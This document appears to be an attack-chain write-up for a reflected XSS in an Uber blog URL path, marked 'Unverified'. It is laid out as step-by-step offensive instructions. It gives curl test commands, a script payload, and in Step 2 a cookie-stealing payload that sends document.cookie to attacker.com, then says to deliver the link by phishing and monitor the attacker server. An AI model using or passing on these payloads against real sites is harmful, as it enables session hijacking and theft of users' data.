

# Reflected XSS on Uber Blog Endpoint Leading to JavaScript Execution

Multi-stage attack chain demonstrating the discovery and exploitation of a reflected XSS vulnerability on the Uber blog endpoint, allowing arbitrary JavaScript execution to steal user data.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome with developer tools)
- [[commands/curl-test-xss-payload]]

### Target Environment

- Web platform
- Publicly accessible HTTPS endpoint
- No authentication required

### Initial Access Requirements

- Internet access to the target URL
- No prior credentials needed
- Ability to craft and share URLs

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Test-for-Reflected-XSS-in-URL-Path]]

**Objective**: Test the Uber blog endpoint for reflected XSS by injecting a payload into the URL path and checking if it is reflected unsanitized in the response.

**Instructions**: Use [[commands/curl-test-xss-payload]] to send a request with a benign payload like `<script>alert(1)</script>` appended to the URL path:

```bash
curl -s "https://www.uber.com/en-NZ/blog/<script>alert(1)</script>/" | grep "alert(1)"
```

If the payload is reflected, proceed to browser testing. Open the crafted URL in a browser to confirm alert popup.

**Expected Output**: The payload appears in the HTML response without escaping, and an alert triggers in the browser.

**Success Indicators**:
- Payload reflected in server response
- JavaScript alert executes in victim's browser context

### Step 2: Exploit with Malicious Payload
procedure: [[procedures/Exploit-Reflected-XSS-for-JavaScript-Execution]]

**Objective**: Craft a malicious URL to execute arbitrary JavaScript, such as stealing cookies, and deliver it to a victim via phishing.

**Instructions**: Replace the benign payload with a malicious one, e.g., to exfiltrate cookies to an attacker-controlled server. Use [[commands/curl-test-xss-payload]] to verify reflection:

```bash
curl -s "https://www.uber.com/en-NZ/blog/<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>/" | grep "document.cookie"
```

Share the URL (e.g., via email or link) and monitor the attacker server for incoming data.

**Expected Output**: Victim's browser executes the script, sending cookies to the attacker endpoint.

**Success Indicators**:
- Cookies or session data received on attacker server
- Potential session hijacking confirmed

## Attack Chain Summary

### Key Achievements

1. Identified reflected XSS in Uber blog URL path without sanitization.
2. Demonstrated arbitrary JavaScript execution leading to data theft.
3. Highlighted phishing risks for users visiting crafted links.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
